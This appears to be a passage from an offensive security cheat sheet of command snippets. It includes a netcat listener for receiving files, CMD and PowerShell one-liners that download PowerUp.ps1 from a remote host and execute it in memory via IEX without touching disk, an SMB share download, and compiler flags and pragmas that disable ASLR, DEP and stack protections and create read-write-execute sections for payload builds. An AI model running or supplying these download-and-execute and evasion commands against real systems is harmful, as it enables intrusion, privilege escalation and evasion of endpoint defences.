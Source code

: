 ```bash
# Linux listener
nc -l -p 5555 > test.txt
```

## Run PowerUp in memory without saving to disk, call Invoke-AllChecks at end of script

### CMD
```cmd
echo IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/PowerUp.ps1') | powershell -noprofile -
```

### PowerShell
```ps
wget('http://10.10.10.10/PowerUp.ps1') -UseBasicParsing|iex
```

## If a SMB share you have access to, download it, and extract it
```bash
smbclient \\\\10.10.10.10\\share -p <Port> -N -Tc share.tar; tar xf share.tar -C share
```

## Compile cl.exe
```cmd
cl.exe /nologo /MT /Ox /W0 /GS- /EHs- /GR- /DNDEBUG /Tp auth_validator.cpp /link /DYNAMICBASE:NO /NXCOMPAT:NO /OUT:auth_validator.exe /SUBSYSTEM:WINDOWS /MACHINE:x64 /ENTRY:WinMain /NODEFAULTLIB /MERGE:.rdata=.text /MERGE:.pdata=.text /MERGE:.data=.text Ws2_32.lib user32.lib ucrt.lib libcmt.lib shlwapi.lib
```

## Expand crt heap to 1MB - calls NtAllocateVirtualMemory
```cmd
cl.exe /nologo /MT /Ox /W0 /GS- /DNDEBUG /Tc no_library.c /link kernel32.lib /OUT:no_library.exe /SUBSYSTEM:WINDOWS /MACHINE:x64 /ENTRY:WinMain /NODEFAULTLIB /HEAP:0x100000,0x100000
```

## Add rwx code segment - calls NtCreateSection and NtMapViewOfSection
```c
#pragma section(".code", execute, read, write)
#pragma comment(linker,"/SECTION:.code,ERW")
__declspec(allocate(".code")) unsigned char allocatedBuffer[1024];
```

## Allocate buffer to data segment - calls NtCreateSection and NtMapViewOfSection
```c
#pragma section(".data", read, write)
__declspec(allocate(".data")) unsigned char allocatedBuffer[1024];
```
